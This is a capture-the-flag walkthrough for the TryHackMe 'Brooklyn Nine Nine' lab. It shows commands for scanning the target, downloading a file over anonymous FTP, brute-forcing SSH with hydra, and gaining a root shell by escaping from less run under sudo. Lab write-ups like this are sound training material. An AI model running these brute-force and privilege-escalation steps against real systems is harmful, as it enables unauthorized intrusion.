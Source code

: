 # [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

# Deploy and get hacking

### User flag

_AHH Jake!_

1. Initial port/service discovery

```bash
namp <TARGET_IP>
```

[SCREEN01]

2. Enumerate anonymous FTP. Connect and download .txt file

```bash
ftp <TARGET_IP>
anonymous
ls -la
mget note_to_jake.txt
y
```

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

3. Use the discovered hint and perform SSH brute force password attack
   - Discovered login: `jake:987654321`

```bash
hydra -l jake -P /root/Tools/wordlists/rockyou.txt ssh://<TARGET_IP>
```

[SCREEN02]

4. SSH into the box and retrieve the user flag

```bash
ssh jake@<TARGET_IP>
cat /home/holt/user.txt
```

[SCREEN03]

---

### Root flag

_Sudo is a good command_

1. Check allowed sudo commands for the current user

```bash
sudo -l
```

[SCREEN04]

2. Abuse an allowed binary using [GTFOBins](https://gtfobins.github.io/gtfobins/less/)

```bash
sudo /usr/bin/less /etc/profile
!/bin/bash
cat /root/root.txt
```

[SCREEN05]
